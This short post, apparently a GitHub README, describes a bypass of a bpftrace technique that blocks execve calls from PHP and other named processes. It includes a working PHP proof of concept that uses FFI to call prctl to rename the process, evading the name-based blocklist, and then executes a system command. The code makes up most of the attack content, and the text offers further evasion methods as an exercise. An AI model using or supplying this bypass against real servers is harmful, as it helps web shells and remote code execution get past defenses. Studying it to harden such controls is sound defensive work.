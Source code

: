 [@cr0nym](https://x.com/cr0nym) posted about using bpftrace to generically stop php and other /specific/ procs from calling execve, preventing most generic web shells + command execution exploits:  
[Generic bpftrace-based RCE/webshell prevention technique for critical Linux network services](https://www.defensive-security.com/resources/generic-bpftrace-based-rcewebshell-prevention-technique-for-critical-linux-network-services)

some distros such as latest debian ship PHP with FFI enabled by default which means one can just call prctl to change the name of the forked process to bypass the blacklist. There are other methods incase prctl is added to the script left as an exercise to astute readers.  

```php
<?php
$ffi = FFI::cdef("
    int system(const char *command);
    int prctl(int option, const char *arg2, unsigned long arg3, 
              unsigned long arg4, unsigned long arg5);
");
$name = "ABAB";
$ffi->prctl(15, $name, 0, 0, 0);
$ffi->system('id');
?>

```
